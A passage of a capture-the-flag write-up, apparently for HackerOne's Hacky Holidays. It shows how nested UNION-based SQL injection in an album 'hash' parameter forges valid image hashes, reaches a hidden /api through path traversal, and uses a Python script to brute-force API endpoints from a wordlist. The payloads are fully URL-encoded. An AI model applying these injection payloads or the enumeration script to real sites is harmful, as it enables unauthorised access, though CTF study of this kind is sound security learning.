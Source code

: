 {F1140391}
{F1140393}

What I discovered was that it was possible to exploit the image generation process and the SQL Injection to craft valid hashes for an arbitrary endpoint.
The following payload demonstrates the scenario, which create a valid hash and provides a link for the /api endpoint.

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27api%27--%20-%22,1,2--%20-

Which results in the following response from the webserver.

{F1140394}

4 - API bruteforce
I understood that the /api endpoint was in the parent directory, so I tried with the ../api value.

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27../api%27--%20-%22,1,2--%20-

{F1140395}

This means that the /api endpoint was successfully reached, but the content-type is not valid. I created a script to discover additional endpoints by bruteforcing the /api folder.

```
#!/usr/bin/python3

import requests, time, urllib3
import re
from bs4 import BeautifulSoup

if __name__ == "__main__": 
    print("[*] Challenge 11 - Identify endpoints")
    with open("api_object_lowercase.txt") as f:
        for endpoint in f:
            session = requests.session()
            x = endpoint.rstrip()
            burp0_url = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27../api/{}%27--%20-%22,1,2--%20-".format(x)
            burp0_headers = {"Connection": "close", "Content-Type":"application/json","Cache-Control": "max-age=0", "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Accept": "*/*", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5"}
            r = session.get(burp0_url, headers=burp0_headers)
            soup = BeautifulSoup(r.text)
            l = soup.find_all("img", {"class": "img-responsive"})
            p = l[2]["src"]
            burp0_url = "https://hackyholidays.h1ctf.com{}".format(p)
            r = session.get(burp0_url, headers=burp0_headers)
            if "Expected" not in r.text:
                print("/{} is available".format(x))
```
